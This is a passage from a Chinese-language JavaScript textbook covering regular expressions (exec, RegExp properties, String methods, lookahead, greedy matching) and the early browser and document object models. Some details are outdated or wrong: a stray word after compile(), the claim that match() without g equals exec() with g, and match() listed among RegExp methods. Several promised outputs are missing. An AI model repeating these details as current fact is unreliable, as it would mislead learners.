你可以使用以下正则表达式，将意图匹配名字的部分以及意图匹配电话号码的部分分别分组：

```
var pattern = /(\w+) \w+ ([\d-]{8})/;
```

这个模式的含义是：一个或多个单词字符，后跟一个空格和另一个由一个或多个单词字符组成的序列，再跟另一个空格，最后是由八个由数字和连字符组成的字符。

当这个模式应用于字符串时，括号会产生*子表达式*。当匹配成功时，这些带括号的子表达式可以通过使用**RegExp**类对象的静态属性**$1**到**$9**来单独引用。继续我们的例子：

注意这里是通过**RegExp**类对象来访问子表达式组件，而不是通过我们创建的**RegExp**实例或模式。

> **注意** 根据ECMA规范，你应该能够引用超过九个子表达式。实际上，应该允许使用**$10**、**$11**等标识符引用多达99个。然而，在本书撰写之时，常见的浏览器最多只支持九个。

### compile()

一个较少使用的方法是**compile()**，它用一个新的正则表达式替换现有的正则表达式。这个方法接受与**RegExp()**构造函数相同的参数（一个包含模式的字符串和一个可选的包含标志的字符串），可用于通过丢弃旧表达式来创建新表达式：

```
var pattern = new RegExp("http:.* ","i");
// do something with your regexp
pattern.compile("https:.* ", "i"); // replaced the regexp in pattern with new pattern
```

这个函数的另一个用途是提高效率。使用**RegExp**构造函数声明的正则表达式在每次使用时都会被"编译"（由解释器转换为字符串匹配例程），这可能是一个耗时的过程，特别是当模式比较复杂时。显式调用**compile()护城河**可以预先一次性编译正则表达式，从而节省每次使用时的重新编译开销。

### exec()

**RegExp**对象还提供了一个名为**exec()**的方法。当你想测试给定字符串是否与某个模式匹配，并且还想获取更多关于匹配的信息时使用此方法，例如模式在字符串中首次出现的偏移位置。你也可以重复将此方法应用于字符串，以便逐个遍历匹配的字符串部分。

**exec()**方法接受一个要匹配的字符串，并且可以通过直接调用正则表达式的名称作为函数来简写。例如，以下示例中的两种调用方式是等价的：

```
var pattern = /http:.*/;
pattern.exec("http://www.w3c.org/");
pattern("http://www.w3c.org/");
```

**exec()**方法返回一个具有多种属性的数组。其中包括数组的**length**；**input**，显示原始输入字符串；**index**，保存匹配部分在字符串中开始的字符索引；以及**lastIndex**，指向匹配之后的字符位置，也是下一次搜索开始的位置。以下脚本说明了**exec()**方法及其返回值：

```
var pattern = /cat/;
var result = pattern.exec("He is a big cat, a fat black cat named Rufus.");

document.writeln("result = "+result+"<<br />>");
document.writeln("result.length = "+result.length+"<<br />>");
document.writeln("result.index = "+result.index+"<<br />>");
document.writeln("result.lastIndex = "+result.lastIndex+"<<br />>");
document.writeln("result.input = "+result.input+"<<br />>");
```

这个例子的结果如下所示：

如果使用子表达式，返回的数组可能包含多个元素。例如，以下脚本包含一组三个带括号的子表达式，它们在数组中被分别解析出来：

```
var pattern = /(cat) (and) (dog) /;
var result = pattern.exec("My cat and dog are black.");

document.writeln("result = "+result);
document.writeln("result.length = "+result.length);
document.writeln("result.index = "+result.index);
document.writeln("result.lastIndex = "+result.lastIndex);
document.writeln("result.input = "+result.input);
```

正如你从结果中看到的，**exec()**方法将整个匹配字符串放在数组的第零个元素中，将匹配带括号子表达式的子字符串放在后续元素中。


#### exec() 与全局标志

有时你可能希望提取字符串中某个模式的*每一个*匹配项，而不仅仅是第一个。在正则表达式中添加全局标志（**g**）表示意图搜索所有出现的位置（即全局搜索），而不仅仅是第一个。

全局标志在 **RegExp** 和 **String** 中的解释方式略有不同。在 **RegExp** 中，它用于增量式地执行全局搜索，即逐个解析出该模式的每次连续出现。在 **String** 中，它用于一次性执行全局搜索，即在单个函数调用中解析出该模式的所有出现。我们将在下一节中介绍全局标志与 **String** 方法的配合使用。

为了演示设置全局标志与未设置全局标志的正则表达式之间的区别，请看下面这个简单的例子：

```
var lucky = "The lucky numbers are 3, 14, and 27";

var pattern = /\d+/;

document.writeln("Without global we get:");

document.writeln(pattern.exec(lucky));

document.writeln(pattern.exec(lucky));

document.writeln(pattern.exec(lucky));

pattern = /\d+/g;

document.writeln("With global we get:");

document.writeln(pattern.exec(lucky));

document.writeln(pattern.exec(lucky));

document.writeln(pattern.exec(lucky));
```

如图 8-2 所示，当设置全局标志时，**exec()** 会从上次匹配结束的位置开始搜索。没有全局标志时，**exec()** 总是返回字符串的第一个匹配部分。


**图 8-2：** 全局标志从上次匹配结束的位置开始搜索。

全局匹配是如何工作的？回忆一下，**exec()** 会将返回的数组和 **RegExp** 类对象的 **lastIndex** 属性设置为指向最近一次匹配的子字符串之后的那个字符。后续对 **exec()** 方法的调用从字符串中的 **lastIndex** 偏移量开始搜索。如果未找到匹配项，lastIndex 将被设置为零。

**exec()** 的一个常见用途是遍历匹配正则表达式的每个子字符串，获取每次匹配的完整信息。下面的示例展示了这种用法，它匹配给定字符串中的单词。结果（在 **<pre>** 标签中使用）如图 8-3 所示。请注意 **lastIndex** 是如何被正确设置的，正如我们前面讨论的那样。


**图 8-3：** 使用设置了全局标志的正则表达式上的 exec() 解析字符串中的单词

```
var sentence = "A very interesting sentence.";

var pattern = /\b\w+\b/g;       // 识别单词；全局

var token = pattern.exec(sentence);  // 获取第一个匹配项

while (token != null)
{
  // 如果有匹配项，打印相关信息

  document.writeln("Matched " + token[0] + " ");

  document.writeln("\ttoken.input = " + token.input);

  document.writeln("\ttoken.index = " + token.index);

  document.writeln("\ttoken.lastIndex = " + token.lastIndex + "\n ");

  token = pattern.exec(sentence);    // 获取下一个匹配项

}
```

使用 **exec()** 方法时需要注意一点：如果你在找到最后一个匹配项之前停止了搜索，需要手动将正则表达式的 **lastIndex** 属性设置为零。如果不这样做，下次使用该正则表达式时，它会自动从 **lastIndex** 偏移量开始匹配，而不是从字符串的开头。

> **注意** * **test()** 方法同样遵守 **lastIndex**，因此它可以像 **exec()** 一样用于增量式搜索字符串。可以将 **test()** 视为 **exec()** 的简化布尔版本。*

### RegExp 属性

检查正则表达式实例对象的内部结构以及 **RegExp** 对象的静态（类）属性，在执行复杂匹配任务和调试时很有帮助。**RegExp** 对象的实例属性列于**表 8-6** 中，除了少数几个例外，读者此时应该已经熟悉了。

#### 表 8-6：RegExp 对象的实例属性

| 属性 | 值 | 示例 |
| --- | --- | --- |
| **global** | 布尔值，表示是否设置了全局标志（**g**）。此属性为只读。 | var pattern = /(cat) (dog)/g;<br>pattern.test("this is a cat dog and cat dog");<br>document.writeln(pattern.global);<br>// 输出 true |
| **ignoreCase** | 布尔值，表示是否设置了忽略大小写标志（**i**）。此属性为只读。 | var pattern = /(cat) (dog)/g;<br>pattern.test("this is a cat dog and cat dog");<br>document.writeln(pattern.ignoreCase);<br>// 输出 false |
| **lastIndex** | 整数，指定字符串中下一次匹配开始的位置。你可以设置此值。 | var pattern = /(cat) (dog)/g;<br>pattern.test("this is a cat dog and cat dog");<br>document.writeln(pattern.lastIndex);<br>// 输出 17 |
| **multiline** | 布尔值，表示是否设置了多行标志（**m**）。此属性为只读。 | var pattern = /(cat) (dog)/g;<br>pattern.test("this is a cat dog and cat dog");<br>document.writeln(pattern.multiline);<br>// 输出 false |
| **source** | 正则表达式的字符串形式。此属性为只读。 | var pattern = /(cat) (dog)/g;<br>pattern.test("this is a cat dog and cat dog");<br>document.writeln(pattern.source);<br>// 输出 (cat) (dog) |

**RegExp** 类对象也有一些非常有用的静态属性。这些属性列于表 8-7，有两种形式。替代形式使用美元符号和特殊字符，那些已经非常熟悉正则表达式的人可能会认得这种形式。替代形式的缺点是必须以关联数组的方式访问它。注意，使用这种形式可能会让不熟悉 Perl 等语言的读者感到困惑，所以最好远离它。

#### 表 8-7：RegExp 类对象的静态属性

| 属性 | 替代形式 | 值 | 示例 |
| --- | --- | --- | --- |
| **$1, $2, ..., $9** | 无 | 字符串，保存最近一次匹配的前九个带括号的子表达式文本。 | var pattern = /(cat) (dog)/g;<br>pattern.test("this is a cat dog and cat dog");<br>document.writeln("$1="+RegExp.$1);<br>document.writeln("$2="+RegExp.$2);<br>// 输出 $1= cat $2 = dog |
| **index** | 无 | 保存最近一次模式匹配中第一个字符的字符串索引值。此属性不属于 ECMA 标准，但得到广泛支持。因此，最好使用正则表达式模式的 **length** 和 **lastIndex** 属性来计算此值。 | var pattern = /(cat) (dog)/g;<br>pattern.test("this is a cat dog and cat dog");<br>document.writeln(RegExp.index);<br>// 输出 10 |
| **input** | **$_** | 字符串，包含用于与模式匹配的默认字符串。 | var pattern = /(cat) (dog)/g;<br>pattern.test("this is a cat dog and cat dog");<br>document.writeln(RegExp.input);<br>// 输出 "this is a cat dog and cat dog"<br>document.writeln(RegExp['$_']); |
| **lastIndex** | 无 | 整数，指定字符串中下一次匹配开始的位置。与实例属性相同，应优先使用实例属性。 | var pattern = /(cat) (dog)/g;<br>pattern.test("this is a cat dog and cat dog");<br>document.writeln(RegExp.lastIndex);<br>// 输出 17 |
| **lastMatch** | **$&** | 字符串，包含最近匹配的文本。 | `var pattern = /(cat) (dog)/g;`<br>`pattern.test("this is a`<br>`cat dog and cat dog");`<br>`document.writeln`<br>`(RegExp.lastMatch);`<br>`// 输出 "cat dog"`<br>`document.writeln`<br>`(RegExp['$&']);`<br>`// 输出 "cat dog"` |
| **lastParen** | **$+** | 字符串，包含最近一次匹配中最后一个带括号的子表达式文本。 | `var pattern = /(cat) (dog)/g;`<br>`pattern.test("this is a`<br>`cat dog and cat dog");`<br>`document.writeln`<br>`(RegExp.lastParen);`<br>`// 输出 dog`<br>`document.writeln(RegExp['$+']);`<br>`// 输出 "dog"` |
| **leftContext** | **$`** | 字符串，包含最近匹配左侧的文本。 | `var pattern = /(cat) (dog)/g;`<br>`pattern.test("this is a`<br>`cat dog and cat dog");`<br>`document.writeln`<br>`(RegExp.leftContext);`<br>`// 输出 "this is a"`<br>`document.writeln(RegExp['$`']);`<br>`// 输出 "this is a"` |
| **rightContext** | **$'** | 字符串，包含最近匹配右侧的文本。 | `var pattern = /(cat) (dog)/g;`<br>`pattern.test("this is a`<br>`cat dog and cat dog");`<br>`document.writeln(RegExp.rightContext);`<br>`// 输出 "and cat dog"`<br>`document.writeln(RegExp['$\'']);`<br>`// 输出 "and cat dog"` |

静态 **RegExp** 类属性的一个有趣特点是它们具有全局性，因此每次使用正则表达式时都会发生变化，无论是通过 **String** 还是 **RegExp** 方法。因此，它们是 JavaScript 采用静态作用域这一规则的例外。这些属性是*动态*作用域的——也就是说，变化反映在调用函数上下文中的 **RegExp** 对象中，而不是被调用源代码的封闭上下文中。例如，一个框架中的 JavaScript 调用另一个框架中使用正则表达式的函数时，会更新*调用*框架中的静态 **RegExp** 属性，而不是被调用函数所在的框架。这很少会造成问题，但如果你在使用框架的环境中依赖静态属性，应该记住这一点。


### 正则表达式的字符串方法

**String** 对象提供了四种利用正则表达式的方法。它们执行的任务与 **RegExp** 对象本身相似，在某些情况下甚至更强大。**RegExp** 方法侧重于匹配和提取子字符串，而 **String** 方法则使用正则表达式来修改或分割字符串，此外也进行匹配和提取。

#### search()

最简单的与正则表达式相关的 **String** 方法是 **search()**，它接受一个正则表达式参数，并返回第一个匹配子字符串开始处的字符索引。如果未找到匹配的子字符串，则返回 -1。考虑以下两个例子：

"JavaScript regular expressions are powerful!".search(/pow.*!/);
"JavaScript regular expressions are powerful!".search(/\d/);

第一条语句返回 35，这是匹配子字符串 "powerful!" 开始处的字符索引。第二条语句搜索一个数字并返回 -1，因为未找到数字字符。

#### split()

**String** 提供的第二个方法也相当简单。**split()** 方法（暂时找不到更好的词）将一个字符串分割成子字符串，并将它们作为数组返回。它接受一个字符串或正则表达式参数，该参数包含用于分割字符串的分隔符。例如，

var stringwithdelimits = "10 / 3 / 4 / 7 / 9";
var splitExp = /[ \/]+/; // 一个或多个空格和斜杠
myArray = stringwithdelimits.split(splitExp);

将 10、3、4、7 和 9 放入名为 *myArray* 的数组的前五个索引中。当然，你可以更简洁地完成：

var myArray = "10 / 3 / 4 / 7 / 9".split(/[ \/]+/);

使用带有正则表达式参数（而非字符串参数）的 **split()** 可以让你灵活地忽略多个空格或分隔符字符。因为正则表达式是贪婪的（参见“高级正则表达式”部分），正则表达式会“吞噬”尽可能多的分隔符字符。如果使用字符串 " /" 作为分隔符而不是正则表达式，我们最终会在数组中得到空元素。

#### replace()

**replace()** 方法返回一个字符串，该字符串是将与其第一个参数（正则表达式）匹配的文本替换为第二个参数（字符串）的文本后得到的结果。如果正则表达式声明中未设置 **g**（全局）标志，则此方法仅替换模式的第一次出现。例如，

var s = "Hello. Regexps are fun.";
s = s.replace(/\./, "!"); // 将第一个句点替换为感叹号
alert(s);

生成字符串 "Hello! Regexps are fun."。包含 **g** 标志将导致解释器执行全局替换，查找并替换每个匹配的子字符串。例如，

var s = "Hello. Regexps are fun.";
s = s.replace(/\./g, "!"); // 将所有句点替换为感叹号
alert(s);

产生结果："Hello! Regexps are fun!"

##### 带有子表达式的 replace()

回想一下，带括号的子表达式可以通过 **RegExp** 类对象按数字引用（例如 **RegExp.$1**）。你可以在 **replace()** 中使用此功能来引用字符串的特定部分。带括号的子表达式匹配的子字符串在替换字符串中使用美元符号 ($) 后跟所需子表达式的编号来引用。例如，以下代码在一个假设的社保号码中插入破折号：

var pattern = /(\d{3})(\d{2})(\d{4})/;
var ssn = "123456789";
ssn = ssn.replace(pattern, "$1-$2-$3");

结果 "123-45-6789" 被放入 *ssn* 中。

这种技术称为*反向引用*，对于根据需要格式化数据非常有用。有多少次你输入电话号码到网站上，却被告知需要包含破折号（或不包含它们）？既然使用正则表达式和反向引用来*修复*这个问题与*检测*它一样容易，那么考虑使用此技术来适应略微偏离预期模式的用户。例如，以下脚本对电话号码进行一些基本的规范化处理：

```
function normalizePhone(phone) {
  var p1 = /(\d{3})(\d{3})(\d{4})/;          // 例如，4155551212
  var p2 = /^(\(\d{3}\))\s(\d{3})[^\d]+(\d{4})/;  // 例如，(415)555-1212
  phone = phone.replace(p1, "$1-$2-$3");
  phone = phone.replace(p2, "$1-$2-$3");
  return phone;
}
```

#### match()

**String** 对象提供的最后一个方法是 **match()**。此方法接受一个正则表达式作为参数，并返回一个包含匹配结果的数组。如果给定的正则表达式具有全局 (**g**) 标志，则返回的数组包含每个匹配子字符串的结果。例如，

```
var pattern = /\d{2}/g;
var lottoNumbers = "22, 48, 13, 17, 26";
var result = lottoNumbers.match(pattern);
```

将 **22** 放入 *result[0]*，将 **48** 放入 *result[1]*，依此类推，直到 **26** 放入 *result[4]*。使用带有全局标志的 **match()** 是快速解析已知格式字符串的好方法。

当表达式没有全局标志时，**match()** 的行为几乎与设置了全局标志的 **RegExp.exec()** 完全相同。**match()** 将第一个匹配开始处的字符位置放入返回数组的实例属性 **index** 中。还会添加名为 **input** 的实例属性，其中包含整个原始字符串。整个匹配子字符串的内容放入数组的第一个元素（索引零）中。其余的数组元素用匹配的子表达式填充，索引 *n* 持有 *$n* 的值。例如，

```
var url = "The URL is http://www.w3c.org/DOM/Activity";
var pattern = /(\w+):\/\/([\w.-]+)\/([\w\/]+)/; // 三个子表达式
var results = url.match(pattern);
document.writeln("results.input =\t" + results.input);
document.writeln("<br />");
document.writeln("results.index =\t" + results.index);
document.writeln("<br />");
for (var i=0; i < results.length; i++) {
  document.writeln("results[" + i + "] =\t" + results[i]);
  document.writeln("<br />");
}
```

产生如图 8-4 所示的结果。如你所见，所有三个子表达式都已匹配并放入数组中。整个匹配被放入第一个元素，实例属性 **index** 和 **input** 反映了原始字符串（记住，字符串偏移量与数组一样，从零开始枚举）。注意，如果 **match()** 未找到匹配，它将返回 **null**。

### 高级正则表达式

还有其他一些正则表达式工具，如果你需要执行更高级的字符串匹配，值得花更多时间了解。

#### 多行匹配

多行标志 (m) 导致 ^ 和 $ 匹配行的开始和结束，以及字符串的开始和结束。你可以使用此标志解析如下文本，

```
var text = "This text has multiple lines.\nThis is the second line.\nThe third.";
var pattern = /^.*$/gm; // 匹配一整行
var lines = text.match(pattern);
document.writeln("Length of lines = "+lines.length);
document.writeln("<br />");
document.writeln("lines[0] = "+lines[0]);
document.writeln("<br />");
document.writeln("lines[1] = "+lines[1]);
document.writeln("<br />");
document.writeln("lines[2] = "+lines[2]);
document.writeln("<br />");
```

该示例使用字符串方法 match() 将文本分割成单独的行并放入数组 lines 中。（设置了全局标志，因此如前所述，match() 将找到模式的所有出现，而不仅仅是第一次。）此示例的输出如下所示。

#### 非捕获分组

JavaScript 还为括号表达式提供了更灵活的语法。使用语法 (?:) 指定括号内的表达式不应用于反向引用。这些称为非捕获分组。例如，

```
var pattern = /(?:a+)(bcd)/; // 忽略第一个子表达式
if (pattern.test("aaaaaabcd")) {
  alert(RegExp.$1);
}
```

显示以下结果：

你可以看到第一个子表达式（一个或多个 "a"）没有被 RegExp 对象“捕获”（即未供其使用）。


#### 前瞻

JavaScript 允许你指定正则表达式的某个部分仅当其后跟或不跟特定子表达式时才匹配。`(?= )` 语法指定一个正向前瞻；仅当前面的项后面紧跟 `(?= )` 中包含的表达式时，它才匹配该项。前瞻表达式本身*不会*包含在匹配结果中。例如，在以下代码中：

```
var pattern = /\d(?=\.\d+)/;
```

*pattern* 仅匹配后面跟有一个句点和一个或多个数字的数字。它匹配 3.1 和 3.14159，但不匹配 3. 或 .3。

负向前瞻通过 `(?! )` 语法实现，其行为类似于 `(?= )`。仅当 `(?! )` 中包含的表达式*不*紧跟其后时，它才匹配前面的项。例如，在以下代码中：

```
var pattern = /\d(?!\.\d+)/;
```

*pattern* 匹配一个字符串，其中包含一个数字，且该数字后面*没有*跟一个句点和另一个数字。它将匹配 3，但不匹配 3.1 或 3.14。负向前瞻表达式在匹配成功时也不会返回。

#### 贪婪匹配

对于正则表达式新手来说，一个特别具有挑战性的方面是*贪婪*匹配。通常被称为*激进*匹配或*最大*匹配，这个术语指的是解释器总是会尽可能多地匹配特定项所能匹配的字符。简单来说，可以这样理解：只要有可能，JavaScript 就会继续匹配字符。例如：

```
var pattern = /(ma.*ing)/;
var sentence = "Regexp matching can be daunting.";
pattern.test(sentence);
alert(RegExp.$1);
```

你可能认为该模式会匹配单词 "matching"。但实际输出是：


解释器匹配了它能找到的最长子串，在本例中是从匹配中的初始 "ma" 一直到 "daunting" 中的最终 "ing"。

#### 禁用贪婪匹配

你可以通过在量词（`*`、`+`、`?`、`{m}`、`{m,}` 或 `{m,n}`）后添加一个问号来强制其变为非贪婪。这样做会强制表达式匹配*最少*数量的字符，而不是最多。以之前的例子为例，但这次使用最小匹配，我们会使用：

```
var pattern = /(ma.*?ing)/; // 因 ? 而为非贪婪 * 匹配
var sentence = "Regexp matching can be daunting.";
pattern.test(sentence);
alert(RegExp.$1);
```

输出显示解释器在字符串中找到了第一个最短的匹配模式：


正如我们在本章中所见，正则表达式无疑具有强大的功能，同时也带来了复杂性。所有 JavaScript 程序员都应该真正掌握正则表达式，因为它们有助于完成表单验证等常见任务。然而，在急着将正则表达式添加到每个脚本之前，程序员应该考虑一些使用上的挑战。

### 正则表达式的局限性

正则表达式得名于它们识别的字符串（在形式化的计算机科学意义上）是“正则的”。这意味着有某些类型的字符串，即使不是不可能，也很难用正则表达式来识别。幸运的是，这些字符串并不常见，通常只在解析源代码或自然语言等事物时出现。如果你无法为特定任务想出一个正则表达式，很可能专家可以。然而，有微小的可能性是你想做的事情实际上是不可能的，所以向比自己更有知识的人请教总是有益的。

另一个需要记住的问题是，一些正则表达式可能具有指数级的复杂性。简单地说，这意味着有可能构造出测试字符串时需要*非常非常*长时间的正则表达式。这通常发生在使用替代操作（|）来提供许多复杂选项时。如果正则表达式拖慢了你的脚本，考虑简化它们。

在使用正则表达式执行表单验证时，一个常见的陷阱是验证电子邮件地址。大多数人没有意识到电子邮件地址可以有多少种形式。有效的电子邮件地址可以包含 ! 和 + 等标点符号，并且可以使用 IP 地址代替域名（如 *root@127.0.0.1*）。你需要做一些研究和实验，以确保你创建的正则表达式足够健壮，能够匹配你感兴趣的字符串类型。这里有两点教训。首先，在执行表单验证时，始终倾向于过于宽松而不是过于严格。其次，了解你正在验证的数据可能采用的格式。例如，如果你在验证电话号码，请务必研究其他国家电话号码的常见格式。

最后，重要的是要记住，即使是精心制作的模式也无法测试语义有效性。例如，你可能能够验证信用卡号码是否具有正确的格式，但如果没有更复杂的服务器端功能，你的脚本无法检查该卡是否真正有效。尽管如此，将语法检查器与表单关联起来，查看用户输入的数据（如信用卡号码），是在提交到服务器之前捕获常见错误的一种便捷方式。

### 总结

正则表达式是 JavaScript 提供的用于基于模式匹配和操作字符串数据的工具。可以使用字面量语法或 **RegExp()** 构造函数创建正则表达式，并在 **String** 方法中使用，例如 **match()**、**replace()**、**search()** 和 **split()**。正则表达式对象还提供 **test()**、**match()** 和 **compile()** 方法，用于测试、匹配和替换正则表达式。正则表达式本身由字符串、特殊转义码、字符类和重复量词组成。特殊转义码提供了包含其他问题字符（如换行符）以及正则表达式中具有特殊含义的字符的方法。字符类提供了一种指定字符串必须或不能从中获取的字符类或范围的方法。重复量词允许你指定特定表达式必须在字符串中重复多少次才能匹配。正则表达式有时难以正确使用，因此应谨慎编写。正确使用时，它们提供了一种强大的方式来识别、替换和提取字符串中的字符模式。

## 第三部分：基础客户端 JavaScript

## 章节列表

- 第 9 章：JavaScript 对象模型
- 第 10 章：标准文档对象模型
- 第 11 章：事件处理

## 第 9 章：JavaScript 对象模型

对象模型定义了浏览器和文档中可供 JavaScript 操作的各种方面的接口。在 JavaScript 中，存在多种基于浏览器类型和版本的对象模型，但通常我们看到两种主要的对象模型——*浏览器对象模型*（BOM）和*文档对象模型*（DOM）。浏览器对象模型提供了对浏览器各种特性的访问，例如浏览器窗口本身、屏幕特性、浏览器历史记录等。另一方面，DOM 提供了对浏览器窗口内容的访问，即包含各种 (X)HTML 元素、CSS 属性和任何文本项目的文档。

虽然这一点看起来很清楚，但不幸的现实是，DOM 和浏览器对象模型之间的划分有时有些模糊，并且特定浏览器 JavaScript 实现的文档操作能力差异显著。本节开始探索 JavaScript 对象模型各个方面的使用，这些方面对于正确使用该语言至关重要。我们从探索 JavaScript 的初始对象模型开始，然后检查浏览器供应商对其所做的各种补充。这段看似历史课的内容将揭示浏览器供应商引入的、仍被当今许多 JavaScript 程序员使用的、“以 DHTML 为中心”的对象模型存在的重大问题，并推动 W3C 推广的标准 DOM 模型的兴起，该模型将在下一章中介绍。

### 对象模型概述

对象模型是一个接口，描述了对象的逻辑结构及其可被操作的标准方式。**图 9-1** 展示了 JavaScript 各个方面的“全景图”，包括其对象模型。我们看到四个主要部分：


**图 9-1：** JavaScript：“全景图”

1.  核心 JavaScript 语言（例如，数据类型、运算符和语句）
2.  主要与数据类型相关的核心对象（例如，**Date**、**String** 和 **Math**）
3.  浏览器对象（例如，**Window**、**Navigator** 和 **Location**）
4.  文档对象（例如，**Document**、**Form** 和 **Image**）


到目前为止，我们主要关注的是 JavaScript 的前两个方面。语言的这一部分在不同浏览器类型和版本之间实际上相当一致，对应于 ECMAScript 规范（[http://www.ecma-international.org/publications/standards/Ecma-262.htm](http://www.ecma-international.org/publications/standards/Ecma-262.htm)）中定义的特性。然而，我们用来操作浏览器和文档的实际对象却各不相同。事实上，在图 9-1 中你会注意到，浏览器对象模型（BOM）和文档对象模型（DOM）似乎是有所混杂的。在早期版本的浏览器中，浏览器对象模型和文档对象模型之间确实没有太大的区别——简直就是一团乱麻。

通过研究 JavaScript 的历史，我们可以在相互竞争的对象模型的混乱中理出一些头绪。JavaScript 中使用过四种不同的对象模型，包括：

1. 传统 JavaScript 对象模型（Netscape 2 和 Internet Explorer 3）
2. 扩展 JavaScript 对象模型（Netscape 3）——DOM Level 0 的基础
3. 动态 HTML 风格的对象模型
   a. Internet Explorer 4.*x* 及更高版本
   b. 仅限 Netscape 4.*x*
4. 扩展浏览器对象模型 + 标准 DOM（现代浏览器）

我们将依次研究这些对象模型，并解释每种模型引入了哪些特性以及存在的问题。幸运的是，标准已经出现，有助于理清这团乱麻，但 JavaScript 程序员要安全地抛开所有浏览器特定的知识还需要一段时间。在深入探讨这些内容之前，让我们回到一个更简单的时代，研究 JavaScript 使用的第一个对象模型，它在任何支持 JavaScript 的浏览器中都可以安全使用。

#### 初始 JavaScript 对象模型

如果你还记得第 1 章中介绍的 JavaScript 历史，这门语言最初的主要目的是在将表单提交给服务器端程序之前检查或操作表单内容。由于这些比较朴素的目标，Netscape 2 中首次引入的初始 JavaScript 对象模型相当有限，主要关注浏览器和文档的基本功能。图 9-2 展示了 JavaScript 的初始对象模型，在 Netscape 2 和 Internet Explorer 3 之间非常相似。


你可能很好奇图 9-2 中显示的各种对象与 JavaScript 有什么关系。实际上，我们已经使用过它们了。例如，**window** 定义了与浏览器窗口关联的属性和方法。当我们使用 JavaScript 语句
`alert("hi");`
来创建一个小型警告对话框时，我们实际上调用了 **Window** 对象的 **alert()** 方法。事实上，我们完全可以这样写：
`window.alert("hi");`
来创建相同的窗口。大多数时候，因为我们可以推断出正在使用当前的 **Window** 对象，所以通常会省略它。

一旦你考虑这样的语句，图 9-2 中展示的包含层次结构也就说得通了：
`window.document.write("<strong>Hi there from JavaScript!</strong>");`

这应该看起来像是我们熟悉的用于向 HTML 文档写入文本的输出语句。我们再次添加了前缀"window"，这次是为了展示层次结构，因为我们在示例中倾向于只使用 **document.write()**。你可能对图 9-2 中显示的所有各种对象的功能感到好奇，因此在表 9-1 中我们提供了传统浏览器对象的简要概述。如你所见，大部分对象都包含在 **Document** 对象中，所以我们现在来更仔细地研究它。

#### 表 9-1：核心浏览器对象概述

| 对象 | 描述 |
|---|---|
| **window** | 与当前浏览器窗口相关的对象。 |
| **document** | 包含构成文档的各种 (X)HTML 元素和文本片段的对象。在传统 JavaScript 对象模型中，**Document** 对象大致对应于 **\<body\>** 标签。 |
| **frames[]** | 如果 **Window** 对象包含帧，则为帧的数组。每个帧又引用另一个 **Window** 对象，该对象可能还包含更多帧。 |
| **history** | 包含当前窗口历史列表的对象，即用户最近访问的各种 URL 的集合。 |
| **location** | 以 URL 及其组成部分的形式包含当前查看文档的位置。 |
| **navigator** | 描述浏览器基本特性的对象，特别是其类型和版本。 |

### Document 对象

**Document** 对象提供了对页面元素（如锚点、表单字段和链接）以及页面属性（如背景和文本颜色）的访问。我们将看到，该对象的结构在不同浏览器和不同版本之间差异很大。表 9-2 和表 9-3 分别列出了那些"最小公分母"属性和方法，它们自最初的 JavaScript 浏览器以来就一直可用。为了简洁起见，以下讨论中将省略一些细节和 **Document** 属性。关于 **Document** 属性的完整信息可以在附录 B 中找到。

#### 表 9-2：最小公分母 Document 属性

| Document 属性 | 描述 | HTML 对应关系 |
|---|---|---|
| **alinkColor** | "活动"链接的颜色——默认为红色 | \<body alink="颜色值"\> |
| **anchors[]** | 文档中锚点对象的数组 | \<a name="锚点名称"\>\</a\> |
| **bgColor** | 页面背景颜色 | \<body bgcolor="颜色值"\> |
| **cookie** | 用于访问页面 cookie 的字符串 | 无 |
| **fgColor** | 文档文本的颜色 | \<body text="颜色值"\> |
| **forms[]** | 包含文档中表单元素的数组 | \<form\> |
| **LastModified** | 包含文档最后修改日期的字符串 | 无 |
| **links[]** | 文档中链接的数组 | \<a href="URL"\>链接内容\</a\> |
| **linkColor** | 未访问链接的颜色——默认为蓝色 | \<body link="颜色值"\> |
| **location** | 包含文档 URL 的字符串。（已弃用。）请改用 **document.URL** 或 **Location** 对象。 | 无 |
| **referrer** | 包含当前文档来源文档 URL 的字符串。（在 IE3 和 IE4 中无效） | 无 |
| **Title** | 包含文档标题的字符串 | \<title\>文档标题\</title\> |
| **URL** | 包含文档 URL 的字符串 | 无 |
| **vlinkColor** | 已访问链接的颜色——默认为紫色 | \<body vlink="颜色值"\> |

#### 表 9-3：最小公分母 Document 方法

| 方法 | 描述 |
|---|---|
| **close()** | 关闭文档的输入流。 |
| **open()** | 打开文档以进行输入。 |
| **write()** | 将参数写入文档。 |
| **writeln()** | 将参数写入文档，并在末尾添加换行符。 |

> **注意** *尽管 HTTP referer 头确实拼写错误，但 **document.referrer** 属性的拼写是正确的。*

检查表 9-2 和表 9-3 可以发现，早期的文档对象模型非常原始。事实上，文档中唯一可以直接访问的部分是文档级别的属性、链接、锚点和表单。不支持对文本或图像的操作，不支持小程序或嵌入对象，也无法访问大多数元素的呈现属性。我们将在后面看到所有这些功能，但首先让我们关注最基本的概念。以下示例显示了示例文档中打印的各种文档属性。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Traditional Document Object Test</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">

<!--

function showProps()

{

var i;


document.write("<h1 align='center'>Document Object Properties</h1><hr /><br />");

document.write("<h2>Basic Page Properties</h2>");

document.write("Location = "+document.location + "<br />");

document.write("URL = " + document.URL + "<br />");

document.write("Document Title = "+ document.title + "<br />");

document.write("Document Last Modification Date = " + document.lastModified +

"<br />");


document.write("<h2>Page Colors</h2>");

document.write("Background Color = " + document.bgColor + "<br />");

document.write("Text Color = " + document.fgColor + "<br />");

document.write("Link Color = " + document.linkColor +"<br />");

document.write("Active Link Color = " + document.alinkColor +"<br />");

document.write("Visited Link Color = " + document.vlinkColor + "<br />");

if (document.links.length > 0)

{

```


#### 链接

```javascript
document.write("<h2>Links</h2>");
document.write("# Links = "+ document.links.length + "<br />");
for (i=0; i < document.links.length; i++)
    document.write("Links["+i+"]=" + document.links[i] + "<br />");
}

if (document.anchors.length > 0)
{
    document.write("<h2>Anchors</h2>");
    document.write("# Anchors = " + document.anchors.length + "<br />");
    for (i=0; i < document.anchors.length; i++)
        document.write("Anchors["+i+"]=" + document.anchors[i] + "<br />");
}

if (document.forms.length > 0)
{
    document.write("<h2>Forms</h2>");
    document.write("# Forms = " + document.forms.length + "<br />");
    for (i=0; i < document.forms.length; i++)
        document.write("Forms["+i+"]=" + document.forms[i].name + "<br />");
}
-->
</script>
</head>
